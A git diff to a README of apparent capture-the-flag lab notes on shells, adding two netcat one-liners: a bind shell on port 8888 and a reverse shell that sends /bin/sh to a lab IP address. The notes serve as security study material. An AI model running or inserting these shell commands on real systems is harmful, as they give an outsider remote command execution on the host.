

Update

diff --git a/Room/WhatTheShell/README.md b/Room/WhatTheShell/README.md
@@ -697,9 +697,13 @@ The remainder of this task will consist of shell examples for you to try out on 
 
 	* Bind shell
 
+		`mkfifo /tmp/f; nc -lvnp 8888 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
+
 		![task13-common-bindshell](./images/task13-common-bindshell.png)
 
 	* Revese shell
+
+		`mkfifo /tmp/f; nc 10.13.52.88 9999 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
 
 		![task13-common-reverse](./images/task13-common-reverse.png)
 
